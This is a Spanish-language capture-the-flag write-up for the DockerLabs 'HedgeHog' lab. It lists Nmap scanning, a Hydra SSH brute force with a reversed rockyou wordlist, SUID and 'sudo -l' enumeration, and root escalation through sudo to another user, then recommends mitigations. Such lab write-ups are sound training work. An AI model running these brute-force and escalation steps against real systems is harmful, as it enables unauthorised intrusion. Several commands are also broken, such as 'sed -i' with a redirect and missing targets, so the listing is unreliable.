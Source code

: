 
# HedgeHog

## Resumen breve: 

HedgeHog (DockerLabs) — Máquina Linux orientada a práctica de pentesting básica: escaneo de puertos, enumeración web y SSH, fuerza bruta con diccionarios adaptados, post-explotación y escalada de privilegios mediante uso de sudo y usuarios intermedios. En este laboratorio se detectaron puertos 22 (OpenSSH) y 80 (Apache), se identificó un usuario web/SSH (tails), se adaptó la wordlist rockyou para acelerar el ataque, se obtuvo acceso por SSH y se escaló a root aprovechando privilegios sudo sobre otro usuario (sonic).

Link a máquina en DockerLabs -> [HedgeHog](https://dockerlabs.es/)
Link a WriteUp completo -> [HedgeHog - WriteUp](https://github.com/DanielDominguezBender/dockerlabs.es/blob/main/HedgeHog/HedgeHog.pdf)

## Pasos clave:
1. Desplegar la máquina Docker (script autodeploy.sh) y arrancar la instancia.
2. Escaneo completo con Nmap → puertos 22 y 80 abiertos (OpenSSH y Apache).
3. Enumeración web: página simple con la palabra 'tails' → posible nombre de usuario.
4. Preparar diccionario: limpiar líneas en blanco/espacios y usar tac para invertir rockyou.
5. Fuerza bruta con hydra → acceso SSH con 'tails'.
6. Post-explotación: enumeración local y revisar 'sudo -l'.
7. Escalada: usar 'sudo -u sonic /bin/bash' para obtener shell como sonic y desde ahí 'sudo su' a root.

## Comandos destacados (ejemplos):

**Preparación / despliegue:**
```python
mkdir hedgehog && cd hedgehog
mv ~/Downloads/hedgehog.zip .
sudo unzip hedgehog.zip
sudo chmod +x autodeploy.sh
sudo ./autodeploy hedgehog.tar
```

**Escaneo:**
```python
nmap -sC -sV --min-rate 5000 -A -p- -oN escaneo_hedgehog.txt
Preparar rockyou (limpiar espacios y líneas vacías, invertir):
sed -i 's/[[:space:]]//g' /usr/share/wordlists/rockyou.txt > rockyou_alternativo.txt
tac rockyou_alternativo.txt > /usr/share/wordlists/rockyou_upsidedown.txt
```

**Fuerza bruta SSH con hydra (ejemplo):**
```python
hydra -I -l tails -P /usr/share/wordlists/rockyou_upsidedown.txt ssh://
Post-explotación: enumeración rápida:
uname -a; id; cat /etc/issue; find / -perm -4000 2>/dev/null; sudo -l
```

**Escalada:**
```python
sudo -u sonic /bin/bash
sudo su
```

## Hallazgos y artefactos importantes:

- Puertos abiertos: 22 (SSH) y 80 (HTTP).
- Usuario identificado: tails (pista encontrada en la web).
- Técnica útil: preprocesar rockyou (quitar espacios/line breaks y usar tac) para acelerar la fuerza bruta.
- Vectores de post-explotación: buscar SUIDs y revisar 'sudo -l'; aprovechamiento de permisos sudo de
'sonic' para escalar a root.


## Mitigaciones recomendadas:
- Evitar usuarios con permisos sudo innecesarios; restringir comandos permitidos con sudoers.
- Limitar intentos de fuerza bruta: usar Fail2Ban, rate limiting en SSH y/o autenticación por clave.
- Revisar y auditar archivos SUID; eliminar SUIDs no imprescindibles.
